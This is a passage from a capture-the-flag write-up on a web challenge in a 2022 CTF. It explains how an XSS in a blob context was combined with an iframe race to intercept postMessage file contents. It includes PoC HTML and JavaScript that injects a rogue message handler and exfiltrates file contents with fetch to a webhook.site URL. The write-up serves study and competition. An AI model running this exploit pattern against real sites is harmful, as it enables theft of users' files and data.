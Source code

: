 **Notice**: it's better to switch focus back to the POC right after the window opens, we could increase the 1000ms timeout to have more time before the attack starts.

![](https://i.imgur.com/BuKOxKL.png)

Unfortunately, the XSS we achieved has the context of the blob, not the top domain, which means we cannot steal files easily. This sets us back for a while but eventually, we asked ourselves a question: What if we could register our own malicious `onmessage` inside the `SHIM`, which mimics the original one and wait for the application to execute line 34 and send us the file contents? It turned out it's not so easy as `onmessage` handler registration takes too much time! We did the math and there was no way to be on time. But if we could slow down the time somehow, then theoretically it could work :smiley:

Unfortunately, we didn't come up with an effective way to slow down the application before we registered the message handler, but nothing is lost, we just tried to reopen the file in the loop by changing the window location again after we set up the handler. That in effect created many `iframes` and one of them had our malicious handler, it was enough that another legit one sends the file contents, which was the flag.

### PoC 2 - Leaking the flag

We need a little trick to satisfy the aforementioned requirement with the focus on the browser tab with our modified exploit:

```html
<script>
    a = window.open("solve.html")
    window.location = "https://postviewer-web.2022.ctfcompetition.com/" 
</script>
```

```html
<script>
    essa = window.opener
    setTimeout(function() {
        for (var i = 0; i < 100; i++) {
            essa.location = `https://postviewer-web.2022.ctfcompetition.com/#a${i},a.list-group-item`
        }
        function race() {
            if(essa.frames.length > 0) {
                essa.frames[0].postMessage({ body: `
                <script>
                window.onmessage = function(data) {
                    if(data.data.body  instanceof File) {
                        read = new FileReader();
                        read.readAsBinaryString(data.data.body)
                        read.onloadend = function(){
                            fetch("https://webhook.site/13471179-aed7-455f-9712-2500d28b85fa?contents=" + encodeURIComponent(read.result));
                        }
                    }
                }
                <\/script>
                <body>
                </body>`, mimeType: "text/html" }, "*")
                
            }
        }
        onmessage = function a(data) {
            if(data.data == "blob loaded") {
                clearInterval(gg)
                alert("WIN")
            }
        }
        var gg = setInterval(race, 50);     
```